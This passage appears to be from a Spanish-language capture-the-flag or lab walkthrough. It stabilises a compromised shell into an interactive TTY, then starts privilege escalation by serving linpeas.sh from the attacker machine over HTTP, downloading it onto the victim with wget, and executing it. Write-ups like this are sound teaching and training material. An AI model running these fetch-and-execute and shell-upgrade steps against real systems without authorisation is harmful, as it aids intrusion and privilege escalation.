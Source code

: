 # TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Vamos a transferirnos el script `linpeas.sh` desde la máquina atacante a la víctima de la siguiente manera:
Levantamos un servidor `HTTP` en el directorio donde tenemos `linpeas.sh`.

```bash
python3 -m http.server 80
```

Ahora, desde la máquina víctima, lo descargamos en el directorio `/tmp`.

```bash
wget http://172.17.0.1/linpeas.sh
```

Info:
```
--2025-11-01 16:19:15--  http://172.17.0.1/linpeas.sh
Connecting to 172.17.0.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 932.07K  --.-KB/s    in 0.003s  

2025-11-01 16:19:15 (276 MB/s) - ‘linpeas.sh’ saved [954437/954437]
```

Le damos permisos de ejecución y lo ejecutamos.

```bash
chmod +x linpeas.sh
./linpeas.sh
```
